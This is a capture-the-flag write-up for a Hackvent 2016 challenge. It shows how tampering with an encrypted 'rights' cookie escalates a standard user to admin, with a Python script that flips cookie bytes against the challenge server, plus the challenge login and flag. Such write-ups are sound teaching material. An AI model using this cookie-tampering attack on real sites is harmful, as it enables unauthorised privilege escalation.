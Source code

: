 ```yaml
---
layout: writeup
title: 'Dec 15: SAP - Santas Admin Panel'
level:
difficulty:
points:
categories: []
tags: []
flag:  HV16-R41n-d33r-8yt3-Fl1p-H4ck

---
```


## Challenge

*you better know how to flip around*

You got access to Santa's hompage. But without admin rights there's
nothing to see here...

A valid login is: raindeer10 / s4nt4

[Admin Panel][1]

## Solution

We log in to the site with the provided credentials, navigate to the
admin panel and see this:

    <!DOCTYPE html>
    <html>
    <head>
        <title>Hackvent 2016</title>
        <link rel="stylesheet" type="text/css" href="./css/main.css">
    </head>
    <body>
        <div class="background-container"></div>
        <ul class="navbar">
            <div class="user-info">
                <a>Logged in as: raindeer10</a>
                <img src="./img/santa_profile.png">
                <a>User Role: Standard</a>
            </div>
            <li><a href="main.php">Home</a></li>
            <li><a href="admin.php">Adminpanel</a></li>
            <li><a href="main.php?action=logout">Logout</a></li>
        </ul>
        <div class="home">
            <div class="flag_container">
                <p>Only for admins and h4x0rs!</p>
                <p>Flag not shown!</p>
            </diV>
        </div>
    </body>
    </html>
{: .language-html}

So our role is `Standard` and we get a message that the flag is not
shown, so presumably we need to change our role

we notice a cookie:

    Cookie: cmlnaHRz=5WT4yVGAfS%2Fn0z5MzSbbZd0K3vpWLmhfxuFo85apE%2Bo%3D; PHPSESSID=kj2snoalv4a0d5v3du0oa1rvv4

and `cmlnaHRz` is base64 for `rights` so presumably we have to edit that
cookie somehow to change our role.

If we do this randomly, we get `Role=None` so need to be smart about
it... hint suggests *flipping around*
but what? ..bits? bytes?

To see which bytes give a different role when changed, we increase each
of them in turn and see what we get:

    import requests
    import base64
    import urllib
    import binascii

    url="http://challenges.hackvent.hacking-lab.com/4dm1nP4n3l/admin.php"

    rights="5WT4yVGAfS/n0z5MzSbbZd0K3vpWLmhfxuFo85apE+o="

    cookie=dict(PHPSESSID="0aim1o2udt333jht40ls9c9mj4",cmlnaHRz=urllib.quote_plus(rights))
    hexcookie = binascii.hexlify(base64.b64decode(rights))

    new=''
    for i in range(0,len(hexcookie),2):
        new += hex(int(hexcookie[i:i+2],16)+1)[2:].zfill(2)

    for i in range (0,64):
        newrights = hexcookie[0:i]+new[i:i+2]+hexcookie[i+2:]

        cookie=dict(PHPSESSID="0aim1o2udt333jht40ls9c9mj4",cmlnaHRz=urllib.quote_plus(newrights))

        r=requests.get(url,cookies=cookie)

        for line in r.text.split('\n'):
            if "Role" in line and "Admin" in line:
                print r.text
{: .language-python}

Huh! this already got us an admin role in a few of the cases, neat!

    <!DOCTYPE html>
    <html>
    <head>
        <title>Hackvent 2016</title>
        <link rel="stylesheet" type="text/css" href="./css/main.css">
    </head>
    <body>
        <div class="background-container"></div>
            <ul class="navbar">
                <div class="user-info">
                    <a>Logged in as: raindeer10</a>
                    <img src="./img/santa_profile.png">
                    <a>User Role: Admin</a>
                </div>
                <li><a href="main.php">Home</a></li>
                <li><a href="admin.php">Adminpanel</a></li>
                <li><a href="main.php?action=logout">Logout</a></li>
            </ul>
            <div class="home">
                <div class="flag_container">
                    <p>Congratulations! You are a 1337 h4x0r!</p>
                    <p>Please get the flag!</p>
                    <img src="./img/a1be12d908971ecbebfeb1d5d2874464.png">
                </div>
            </div>
    </body>
    </html>

so we are given the location of our flag,
`./img/a1be12d908971ecbebfeb1d5d2874464.png`

![](writeupfiles/dec15_ball.png)





[1]: http://challenges.hackvent.hacking-lab.com/4dm1nP4n3l/index.php
